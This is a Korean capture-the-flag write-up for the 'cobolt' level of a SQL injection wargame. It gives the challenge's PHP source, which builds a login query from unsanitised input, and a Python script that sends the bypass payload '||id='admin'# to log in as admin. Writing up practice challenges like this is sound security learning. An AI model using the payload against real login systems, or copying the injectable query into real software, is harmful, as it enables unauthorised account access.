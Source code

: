 
## COBOLT Write-up

### 문제
``` php
<?php  
include "./config.php";  
login_chk();  
dbconnect();  
if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");  
if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");  
$query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')";  
echo "<hr>query : <strong>{$query}</strong><hr><br>";  
$result = @mysql_fetch_array(mysql_query($query));  
if($result['id'] == 'admin') solve("cobolt");  
elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>";  
highlight_file(__FILE__);  
?>
```
### Exploit 코드
``` python
import requests

url = 'http://los.rubiya.kr/cobolt_b876ab5595253427d3bc34f1cd8f30db.php'
cookies = {'PHPSESSID' : 'My PHPSESSID'}
params = {'id' : "'||id='admin'#"}

res = requests.get(url, cookies=cookies, params=params)

if "Clear" in res.text :
    print("[♪] COBOLT Clear!")
```
1번 문제는 id의 존재만 확인했지만 이번 문제는 id가 admin이어야 한다.
따라서 id에 **'||id='admin'#** 을 넣어주었다.
``` php
select id from prob_cobolt where id=''||id='admin'#' and pw=''
```
쿼리문이 위와 같이 되고 id가 admin이 되어 문제가 풀린다.